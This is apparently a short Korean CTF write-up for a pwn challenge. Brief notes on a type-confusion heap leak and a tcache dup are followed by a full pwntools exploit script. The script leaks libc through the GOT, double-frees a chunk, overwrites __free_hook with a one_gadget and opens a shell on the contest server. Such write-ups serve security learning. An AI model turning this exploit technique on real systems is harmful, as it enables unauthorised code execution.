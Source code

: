 

이제 aaw만 하면 된다. 디버깅을 해보니 String을 set할 때 힙에 할당되었다. 이때 힙 주소는 bss에 남는데, 이 힙 주소를 `Type Confusion`을 이용하여 leak할 수 있다. 그 다음 해당 주소를 double로 할당하게 되면 동일한 주소를 가리키는 포인터가 2개가 된다. 이를 통해 `tcache dup`을 트리거 가능하고 `free_hook`에 `one_gadget`을 덮으면 된다.

```python
from pwn import *
from struct import *

#p = process('./chall')
p = remote("pwn.kosenctf.com", 9005)
e = ELF('./chall')
libc = e.libc

def Set(idx, Type, data):
    p.sendlineafter('> ', '1')
    p.sendlineafter(': ', str(idx))
    p.sendlineafter(': ', str(Type))
    p.sendlineafter(': ', str(data))

def Show():
    p.sendlineafter('> ', '2')

def Delete(idx):
    p.sendlineafter('> ', '3')
    p.sendlineafter(': ', str(idx))

def p64_(s):
    return str("%.800f" % unpack("<d", p64(s))[0])

Set(0, 2, p64_(e.got['free']))
Set(1, 1, 'A')
Set(2, 2, p64_(0x6020a8))
Show()

p.recvuntil('"')
leak = p.recvuntil('"')[:-1]

leak = (u64(leak.ljust(8, '\x00')))
libc_base = leak - libc.sym['free']

one_off = [324453, 324546, 1090652]
one_gadget = libc_base + one_off[1]
free_hook = libc_base + libc.sym['__free_hook']

p.recvuntil('2')
p.recvuntil('"')
leak = p.recvuntil('"')[:-1]
leak = (u64(leak.ljust(8, '\x00')))

Set(3, 2, p64_(leak))

Delete(1)
Delete(3)

Set(4, 1, p64(free_hook))
Set(5, 1, p64(0))

p.sendlineafter('> ', p64(one_gadget))

p.interactive()
```
